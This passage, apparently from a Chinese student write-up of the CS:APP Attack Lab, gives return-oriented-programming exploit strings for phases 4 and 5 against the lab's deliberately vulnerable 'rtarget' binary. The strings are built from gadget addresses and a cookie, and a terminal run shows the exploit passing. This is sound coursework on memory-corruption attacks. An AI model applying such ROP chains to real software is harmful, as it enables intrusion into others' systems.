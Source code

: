查找官方的write up，得知对应机器码，然后在在rtarget文件的反汇编文件中利用vim查找对应代码地址。将其放入攻击字符串，得到攻击字符串为。  

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3c 18 40 00 00 00 00 00	/*	popq rax		*/
80 93 14 63 00 00 00 00	/*	cookie			*/
49 18 40 00 00 00 00 00	/*	movq %rax,%rdi 	*/
cc 16 40 00 00 00 00 00 /*	touch2			*/
```

转换输入运行

```bash
2017211523@bupt3:~/target117$ ./hex2raw < phase4 | ./rtarget 
Cookie: 0x63149380
Type string:Touch2!: You called touch2(0x63149380)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

#### phase_5

此关为phase_3的ROP版本，我们需要查找start_farm到end_farm中的gadgets，拼凑出代码实现phase_3中插入代码的功能。还需注意：  

1.0x90代表nop，除了将pc加1之外不做任何事。  

2.不分双字节指令，设置标志位，不改变寄存器的值，可以使用。 

需要的指令有

```assembly
movq	%rsp,%rax
movq	%rax,%rdi
popq	%rax
movl	%eax,%ecx
movl	%ecx,%edx
movl	%edx,%esi
lea(%rdi, %rsi, 1),%rax
movq	%rax,%rdi
```

则攻击字符串为

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
bd 18 40 00 00 00 00 00	/*	gadget1			*/
49 18 40 00 00 00 00 00	/*	gadget2			*/
30 18 40 00 00 00 00 00	/* 	gadget3			*/
48 00 00 00 00 00 00 00	/*	cookie字符串偏移量*/
13 19 40 00 00 00 00 00	/*	gadget4			*/
ca 18 40 00 00 00 00 00	/*	gadget5			*/
b7 18 40 00 00 00 00 00	/*	gadget6			*/
69 18 40 00 00 00 00 00	/*	gadget7			*/
49 18 40 00 00 00 00 00	/*	gadget8			*/
a0 17 40 00 00 00 00 00 /*	touch3地址   	   */
36 33 31 34 39 33 38 30 /* 	cookie字符串	  */
00
```
